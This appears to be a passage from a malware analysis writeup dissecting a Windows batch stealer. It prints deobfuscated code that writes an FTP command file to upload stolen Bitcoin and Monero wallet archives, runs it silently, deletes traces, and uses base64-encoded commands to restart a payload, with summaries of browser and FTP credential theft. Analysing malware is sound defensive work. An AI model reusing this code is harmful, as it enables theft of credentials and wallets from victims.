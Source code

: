 ```bash
ECHO put temp\btc.rar>>cmd.dat
ECHO put temp\btc.7z>>cmd.dat
ECHO :: -------- EnD --------- ::>>cmd.dat
ECHO :: -------- XMR Steal --- ::>>cmd.dat
ECHO put temp\xmr.rar>>cmd.dat
ECHO put temp\xmr.7z>>cmd.dat
ECHO :: -------- EnD --------- ::>>cmd.dat
ECHO quit>>cmd.dat)
start /b ftp -n -s:cmd.dat
timeout /t 9 >nul
del /s /f /q cmd.dat
del /s /f /q nts.txt
if exist temp\sys.exe (
goto sex) else (
goto 6)
```

#### Conclusion:
* Echos username "cli" and pass "h4x" into "cmd.dat".
* Grabs psexec.exe
* Grabs sys.exe
* Grabs cmdow.exe
* Places FTP information on FTP server on localhost
* Places Firefox information on FTP server on localhost
* Places Chrome Information on FTP server on localhost
* Places Bitcoin wallet information on FTP server on localhost
* Places Monero wallet information on FTP server on localhost


### Analysis of deobfuscated ":sex"
```bash
cd temp
set "string7=dGFza2tpbGwgL0YgL0lNIHN5cy5leGU="
for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string7"""^)^)') do 
set "decoded7=i"powershell cmd /c start /b decoded7 >nul
set "string8=c3lzLmV4ZQ=="for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string8"""^)^)') do 
set "decoded8=i"powershell cmd /c start /b decoded8 >nul
timeout /t 3 >nul
goto 6
```
Decoded base64 strings:
```bash
taskkill /F /IM sys.exe
sys.exe
```

#### Conclusion:
* Kills "sys.exe" execution and starts a new one from the "sys.exe" which should be located on temp folder since the execution of ":5"
